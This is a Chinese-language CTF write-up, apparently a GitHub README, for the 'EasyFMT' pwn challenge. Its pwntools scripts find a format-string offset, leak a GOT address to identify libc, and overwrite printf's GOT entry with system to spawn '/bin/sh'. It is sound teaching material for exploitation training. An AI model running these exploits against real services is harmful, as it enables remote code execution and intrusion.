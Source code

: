 # EasyFMT

## 文件解析
```shell
file pwn
checksec pwn
```
![](README/BED070C1-1805-486B-A683-FEB522FB7155.png)

![](README/95AB10B4-D5B3-4F4F-8C0E-34CD609EE764.png)

用IDA打开

![](README/87CDF27C-D8E9-403B-90B0-8F0E19783812.png)
结合题目可以看到是一个典型的格式化字符串漏洞

然后标准的输出就是
![](README/6B833CBF-6AF6-43B2-815C-CC39DFE8E358.png)


格式化字符串漏洞，需要首先找到偏移地址

```python
from pwn import *

for i in range(1, 100):
    conn = remote("127.0.0.1", 6080)
    payload = "AAAA%{num}$x".format(num=i)
    conn.recvuntil("repeater?\n")
    conn.sendline(payload)

    data = conn.recv()
    try:
        if "41414141" in data:
            print(i)
            conn.close()
            break

        else:
            conn.close()
    except:
        conn.close()
```

![](README/509ED511-7B09-485C-9470-BD1F0FC55EC0.png)

偏移字数是6

然后利用printf_got的地址来leak printf的实际地址， 而后根据leak到的printf的实际地址来判断目标系统上使用的libc库

获取printf的got地址

![](README/F5E75286-759F-49BD-908F-385D93F48C21.png)

![](README/D439B37F-7541-4D76-8F50-57FB85D57DBC.png)


然后获取printf的实际地址去对比找到libc 的版本
```python
from pwn import *

p=remote("127.0.0.1", 6080)
elf = ELF('./pwn')
puts_got = elf.got['puts']
print hex(puts_got)
payload = p32(puts_got)+'#'+'%6$s'+'#'

p.sendline(payload)
p.recvuntil('#')
puts = u32(p.recvuntil('#')[:4])
print hex(puts)

```


![](README/2E96D63A-36FE-44FF-80C0-33AB7F53AC5C.png)

获取libc版本的方式有两个，一个是项目
https://github.com/niklasb/libc-database
![](README/2DBE607B-4F96-42F3-8E00-C7206EC5AFFB.png)

还有一个是在线的[libc database search](https://libc.blukat.me/?q=printf%3A0x79206f44)

![](README/3E31BCFE-DC44-45ED-A37E-99599B7F3E22.png)


```python
# coding:utf-8
from pwn import *

conn = remote("127.0.0.1", 6080)
elf = ELF("pwn")
libc = ELF("libc.so")

conn.recvuntil("repeater?\n")
printf_got = elf.got["printf"]

payload1 = p32(printf_got)+"%6$s"

conn.sendline(payload1)
data = conn.recvuntil("\n")

printf_addr = u32(data[4:8])

printf_libc = libc.symbols["printf"]
system_libc = libc.symbols["system"]

system_addr = printf_addr - printf_libc + system_libc

payload2 = fmtstr_payload(6, {printf_got:system_addr})
conn.sendline(payload2)
conn.recvuntil("\n")
conn.sendline('/bin/sh\x00')
conn.interactive()

```

![](README/EDDC4DBF-1F7E-4D91-9E1E-A02E22679969.png)

